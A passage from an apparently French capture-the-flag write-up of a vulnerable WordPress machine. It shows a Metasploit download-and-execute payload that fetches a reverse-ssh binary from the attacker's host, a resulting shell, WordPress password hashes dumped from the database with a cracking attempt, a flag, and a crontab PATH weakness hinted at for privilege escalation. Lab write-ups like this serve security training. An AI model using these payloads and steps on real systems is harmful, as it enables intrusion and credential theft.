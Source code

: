 Hmmm mon payload n'est pas passé, apparemment la commande base64 est manquante sur le système (?). Testons un autre paylad :

```
Payload options (php/download_exec):

   Name  Current Setting                     Required  Description
   ----  ---------------                     --------  -----------
   URL   http://192.168.56.1/reverse-sshx64  yes       The pre-encoded URL to the executable
```

Cette fois ça passe et mon reverse-ssh écoute bien sur le port par défaut :

```bash
$ ssh -p 31337 192.168.56.82
devloop@192.168.56.82's password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jerome@jerome:/var/www/html/wordpress$ id
uid=1000(jerome) gid=1000(jerome) groups=1000(jerome),27(sudo)
```

## Point final

A tout hazard je récupère les identifiants de BDD dans la configuration Wordpress puis les hashs :

```
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+------------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email             | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+------------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | root       | $P$Bgs0wlRRAvgDEhGK3qjutMytTHAt1X0 | root          | root@localhost.local   |          | 2019-04-03 18:04:42 |                     |           0 | root         |
|  4 | jerome     | $P$Bd6wPdlC7yTllqOHsa.TZFlLjVs1Hk1 | jerome        | jerome@localhost.local |          | 2019-04-16 13:58:43 |                     |           0 | jerome       |
+----+------------+------------------------------------+---------------+------------------------+----------+---------------------+---------------------+-------------+--------------+
```

Le mot de passe de root n'est pas retrouvé par JohnTheRipper...

On a déjà accès à notre premier flag :

```bash
jerome@jerome:~$ cat flag.txt 
b0ed001c825
```

Je remarque quelque chose dans `/etc/crontab`. Saurez-vous déceler le problème vous même ?

```bash
jerome@jerome:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=.:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
```